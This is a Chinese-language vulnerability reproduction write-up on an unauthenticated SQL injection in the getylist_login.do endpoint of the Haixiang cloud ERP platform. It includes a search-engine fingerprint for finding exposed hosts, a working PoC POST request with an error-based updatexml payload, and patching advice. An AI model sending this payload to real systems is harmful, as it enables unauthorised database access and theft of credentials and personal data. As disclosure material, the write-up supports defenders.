


# 海翔云平台 getylist\_login.do SQL 注入漏洞复现

### 0x01 产品简介

  海翔[云平台](https://so.csdn.net/so/search?q=%E4%BA%91%E5%B9%B3%E5%8F%B0&spm=1001.2101.3001.7020)一站式整体解决方案提供商，业务涵盖 批发、连锁、零售行业ERP解决方案、wms仓储解决方案、电商、外勤、移动终端（PDA、APP、小程序）解决方案。

### 0x02 漏洞概述

  海翔云平台getylist\_login.do接口处存在SQL注入漏洞，未经身份认证的攻击者可通过该漏洞获取数据库权限，除了可以利用 SQL 注入漏洞获取数据库中的信息（例如，管理员后台密码、站点的用户个人信息）之外，甚至在高权限的情况可向服务器中写入木马，进一步获取服务器系统权限。

### 0x03 复现环境

钟馗之眼：app:"海翔云平台"



### 0x04 漏洞复现

PoC

```cobol
POST /getylist_login.do HTTP/1.1
Host: your-ip
Accept-Encoding: gzip
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Content-Length: 75

accountname=test' and (updatexml(1,concat(0x7e,(select user()),0x7e),1));--
```

查询当前用户



### 0x05 修复建议

官方已修复该漏洞，建议受影响的用户升级至安全版本：http://www.seaflysoft.com/

部署Web应用防火墙，对数据库操作进行监控。

如非必要，禁止公网访问该系统。
